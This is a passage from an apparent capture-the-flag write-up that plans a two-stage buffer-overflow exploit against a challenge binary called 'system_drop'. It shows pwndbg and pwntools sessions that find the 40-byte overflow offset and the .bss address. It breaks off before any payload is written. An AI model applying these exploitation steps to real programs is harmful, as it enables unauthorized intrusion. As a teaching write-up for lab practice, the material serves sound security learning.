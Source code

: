 Half way through our exploit, we'll read the values in to the locations where we told future
instructions to look.

Abstractly, this is difficult to explain. We're essentially planning out 2 moves in advance,
whereby the first move requests additional data in order to correctly complete the second. Again,
Timey, wimey

## The Exploit

### Finding the offset

We'll keep this section short. It's 40.

```bash
pwndbg> r <<(cyclic 80)
Starting program: ./system_drop <<(cyclic 80)

Program received signal SIGSEGV, Segmentation fault.
0x000000000040056f in main ()

pwndbg> x/dx $rsp
0x7fffffffe1c8: 0x6161616b
pwndbg> cyclic -l 0x6161616b
40
```

### Getting the `.bss` addresses

You can get this dynamically from `pwntools` or manually with `objdump` or any disassembler of your
choice. 

```python
from pwn import *
In [1]: from pwn import *
In [2]: context.binary = "./system_drop"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
In [3]: hex( context.binary.bss() )
Out[3]: '0x601038'
```

```bash
$ objdump -D ./system_drop | grep -A 3 bss

Disassembly of section .bss:
0000000000601038 <completed.7698>:
```


### Kick off a new `read` to fill `.bss`
